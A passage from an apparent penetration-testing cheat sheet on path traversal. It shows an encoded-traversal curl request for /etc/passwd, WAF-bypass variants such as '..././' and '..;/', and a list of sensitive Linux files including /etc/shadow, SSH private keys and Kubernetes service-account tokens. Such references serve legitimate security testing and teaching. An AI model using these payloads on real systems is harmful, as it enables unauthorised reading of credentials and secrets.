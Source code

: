 Other encoding:
```
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### Bypass "../" replaced by ""

Sometimes you encounter a WAF which remove the "../" characters from the strings, just duplicate them.

```
..././
...\.\
```
#### Bypass "../" with ";"

```
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt
```

#### Interesting Linux files

```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```
#### Interesting Windows files
